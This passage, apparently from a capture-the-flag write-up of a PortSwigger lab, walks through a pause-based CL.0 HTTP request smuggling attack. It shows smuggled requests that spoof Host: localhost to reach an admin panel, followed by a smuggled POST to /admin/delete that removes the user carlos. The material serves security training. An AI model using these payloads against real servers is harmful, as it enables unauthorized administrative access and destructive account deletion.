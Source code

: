 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193723.png)

- The second entry is a response to the `GET /admin/` request:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193803.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193813.png)

Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.

**To bypass the local restriction, we can try to add the `Host` header with value `localhost`:**
```http
Content-Length: 0

GET /admin/ HTTP/1.1
Host: localhost


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226192339.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193847.png)

**Then relaunch the attack and wait for 61 seconds:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226194040.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226194108.png)

This time we successfully bypassed the admin panel restriction!!

**Now, the admin panel has a HTML form:**
```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
    <input required type="hidden" name="csrf" value="OPub21PuuzgPKd01kmApu3QktxGyRcjg">
    <label>Username</label>
    <input required type='text' name='username'>
    <button class='button' type='submit'>Delete user</button>
</form>
```

When the "Submit" button is clicked, **it'll send a POST request to `/admin/delete`, with parameter `csrf` and `username`.**

Armed with above information, we can delete user `carlos`!

**To do so, we need to modify the smuggled request:**
```http
Content-Length: 158

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=unSEDsbIWW4wAWKgLuWtazQUKSvfi6dP&username=carlos
```
